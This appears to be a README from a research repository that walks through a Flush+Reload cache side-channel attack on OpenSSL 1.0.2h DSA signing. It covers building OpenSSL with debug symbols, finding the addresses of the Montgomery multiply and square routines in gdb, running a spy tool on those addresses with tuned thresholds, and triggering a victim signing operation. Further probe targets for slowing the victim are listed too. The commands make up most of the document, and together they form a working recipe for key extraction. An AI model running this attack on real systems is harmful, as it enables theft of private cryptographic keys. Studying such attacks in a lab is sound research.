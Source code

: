 ### Workflow
Download OpenSSL 1.0.2h source code from https://www.openssl.org/source/old/1.0.2/ \
Go to the installation directory and run ./config. Do not run make depend at this point\
Open Makefile and add -g to the end of the line containg CFLAG=.....\
```
make depend
make
sudo make install
```
Copy the given flushreload.c and plot.py in the flush-reload-attacks/flush-reload/myversion and redirect to this folder\
Run ```make``` in the above folder\
Run ```gdb```, then run command file /usr/local/ssl/bin/openssl to load debugging symbols\
Run ```break bn_sqr8x_mont``` inside gdb and note the virtual address printed(V1)\
Run ```break bn_mul4x_mont``` inside gdb and note the virtual address printed(V2)\
```
./spy -e /usr/local/ssl/bin/openssl -p S:V1 -p M:V2 -s 256 -t 80 | python3 plot.py
```
In another terminal, run the folowwing:
```
/usr/local/ssl/bin/openssl dgst -dss1 -sign ~/dsa.pem -out ~/lsb-release.sig /etc/lsb-release
```

For performance degradation:\
Breaking on Lsqr4x_shift_n_add, L8x_reduce, L1st4x, Louter4x, Lsqr4x_inner, Linner4x


### Ideal parameters
Threshold : 80\
Slot size : 2048